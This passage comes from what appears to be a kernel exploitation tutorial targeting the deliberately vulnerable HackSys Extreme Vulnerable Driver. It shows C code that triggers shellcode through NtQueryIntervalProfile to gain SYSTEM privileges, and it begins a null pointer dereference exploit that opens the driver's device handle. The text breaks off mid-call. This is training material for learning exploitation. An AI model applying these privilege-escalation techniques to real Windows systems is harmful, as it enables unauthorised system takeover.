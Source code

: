Once the pointer has been over written we need to trigger execution of the shellcode ourselves. We do this by calling the NtQueryIntervalProfile function, first of all we create a type definition for the function.

<pre>
typedef NTSTATUS(WINAPI *NtQueryIntervalProfile_t)(
	IN ULONG ProfileSource,
	OUT PULONG Interval
);
</pre>

We then get it's offset in ntdll and cast the found function pointer to an easily usable data type. Then we call the function and we should find ourselves running as system.

<pre>
NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(ntdll, "NtQueryIntervalProfile");

if (!NtQueryIntervalProfile) {
	printf("Failed Resolving NtQueryIntervalProfile. \n");
	return 1;
}
printf("Triggering shellcode\n");
ULONG interval = 0;
NtQueryIntervalProfile(0, &interval);
system("calc.exe");
</pre>

The full exploit for this vulnerability can be found [here](https://github.com/sam-b/HackSysDriverExploits/tree/master/HackSysArbitaryOverwriteExploit).
## Null Pointer Dereference
First of all we start out with a basic skeleton for our exploit (inside a new VisualStudio project) which sends the correct IOCTL to the driver.
<pre>
#include "stdafx.h"
#include &lt;stdio.h>
#include &lt;Windows.h>
#include &lt;winioctl.h>
#include &lt;TlHelp32.h>

//Definition taken from HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x810, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(void)
{
	DWORD lpBytesReturned;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";

	printf("Getting the device handle\r\n");
	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.